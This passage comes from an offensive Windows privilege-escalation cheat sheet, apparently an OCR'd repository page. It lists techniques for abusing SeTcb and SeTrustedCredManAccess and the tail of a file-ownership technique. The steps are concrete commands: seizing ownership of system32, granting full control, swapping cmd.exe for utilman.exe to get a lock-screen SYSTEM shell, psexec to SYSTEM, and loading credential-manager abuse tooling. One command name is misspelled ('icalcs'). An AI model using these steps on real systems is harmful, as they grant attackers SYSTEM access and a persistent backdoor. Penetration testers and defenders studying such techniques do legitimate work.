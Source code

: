 Type: Abuse Privilege

Methods:

1\. takeown.exe /f \"%windir%\\system32\"

2\. icalcs.exe \"%windir%\\system32\" /grant \"%username%\":F

3\. Rename cmd.exe to utilman.exe

4\. Lock the console and press Win+U

<a name="abusing-via-setcb"></a>
# Abusing via SeTcb 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

PSBits

Or

PrivFu

2\.

psexec.exe -i -s -d cmd.exe

<a name="abusing-via-setrustedcredmanaccess"></a>
# Abusing via SeTrustedCredManAccess 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

.load C:\\dev\\PrivEditor\\x64\\Release\\PrivEditor.dll

Or

CredManBOF

2\.

TrustExec.exe -m exec -c \"whoami /priv\" -f

